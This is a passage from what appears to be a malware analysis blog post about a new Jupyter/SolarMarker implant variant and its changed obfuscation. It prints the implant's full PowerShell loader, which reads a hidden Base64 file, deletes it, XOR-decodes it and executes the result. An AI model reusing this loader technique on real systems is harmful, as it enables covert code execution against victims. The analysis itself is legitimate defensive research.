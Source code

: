 The sample we observed was not leveraged as an information stealer. It is an implant that provides initial access, persistence, and C2 functions. This makes the implant powerful in that it can be used to accomplish any tasks that require remote access. It is likely that these intrusions are the beginning of a concentrated campaign against the victims or will be sold off in bulk for other campaigns unassociated with the access collection.

The analysis will leverage David Bianco's [Pyramid of Pain](http://detect-respond.blogspot.com/2013/03/the-pyramid-of-pain.html) analytical model to describe the value of atomic indicators, artifacts, tool-markings, and TTPs to the malware authors and how uncovering them can impact the efficiency of the intrusion sets leveraging this implant. Additionally, we are providing some host-based hunting techniques and detection rules that can be leveraged to identify this implant and others that share similar artifacts and TTPs.

## Details

On August 31, 2021, Elastic observed process injection telemetry that shared techniques with the Jupyter Infostealer as reported by Morphisec, Binary Defense, and security researcher Squibydoo [[1](https://blog.morphisec.com/jupyter-infostealer-backdoor-introduction)] [[2](https://blog.morphisec.com/new-jupyter-evasive-delivery-through-msi-installer)] [[3](https://www.binarydefense.com/mars-deimos-solarmarker-jupyter-infostealer-part-1)] [[4](https://squiblydoo.blog/2021/05/02/mars-deimos-solarmarker-jupyter-infostealer-part-1)] [[5](https://squiblydoo.blog/2021/06/20/mars-deimos-from-jupiter-to-mars-and-back-again-part-two)]. As we began analysis and compared the samples we observed to prior research, we identified a change in the way obfuscation was implemented. This change may be the result of several factors, one of which is an attempt by the adversary to bypass or otherwise evade existing defenses or malware analysis.

_Note: As previous versions of this malware have been thoroughly documented, we will focus on newly observed capabilities and functionality._

During dynamic analysis of the malware, we observed behavior similar to that which had been reported elsewhere - namely obfuscation using a litany of runtime-created variables (variables that are unique to each execution), directories, an XOR cipher, and Base64 encoded commands. Below, is an example of the new obfuscation tactics employed by the malware author to hinder analysis. We'll discuss this in detail as we unpack the malware's execution.

```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command "$650326ac2b1100c4508b8a700b658ad7='C:\Users\user1\d2e227be5d58955a8d12db18fca5d787\a5fb52fc397f782c691961d23cf5e785\4284a9859ab2184b017070368b4a73cd\89555a8780abdb39d3f1761918c40505\83e4d9dd7a7735a516696a49efcc2269\d1c086bb3efeb05d8098a20b80fc3c1a\650326ac2b1100c4508b8a700b658ad7';$1e3dadee7a4b45213f674cb23b07d4b0='hYaAOxeocQMPVtECUZFJwGHzKnmqITrlyuNiDRkpgdWbSsfjvLBX';$d6ffa847bb31b563e9b7b08aad22d447=[System.Convert]::FromBase64String([System.IO.File]::ReadAllText($650326ac2b1100c4508b8a700b658ad7));remove-item $650326ac2b1100c4508b8a700b658ad7;for($i=0;$i -lt $d6ffa847bb31b563e9b7b08aad22d447.count;)\{for($j=0;$j -lt $1e3dadee7a4b45213f674cb23b07d4b0.length;$j++)\{$d6ffa847bb31b563e9b7b08aad22d447[$i]=$d6ffa847bb31b563e9b7b08aad22d447[$i] -bxor $1e3dadee7a4b45213f674cb23b07d4b0[$j];$i++;if($i -ge $d6ffa847bb31b563e9b7b08aad22d447.count)\{$j=$1e3dadee7a4b45213f674cb23b07d4b0.length\}\}\};$d6ffa847bb31b563e9b7b08aad22d447=[System.Text.Encoding]::UTF8.GetString($d6ffa847bb31b563e9b7b08aad22d447);iex $d6ffa847bb31b563e9b7b08aad22d447;"
```

_Figure 1: PowerShell executed by malware installer_

The sample we observed created a Base64-encoded file nested several subdirectories deep in the %USERPROFILE% directory and referenced this file using a runtime variable in the PowerShell script ($650326ac2b1100c4508b8a700b658ad7 in our sample). Once this encoded file was read by PowerShell, it is deleted as shown in Figure 2. Other published research observed the Base64 string within the PowerShell command which made it visible during execution. This shows an adaptation of the obfuscation techniques leveraged by the malware authors in response to reports published by security researchers.

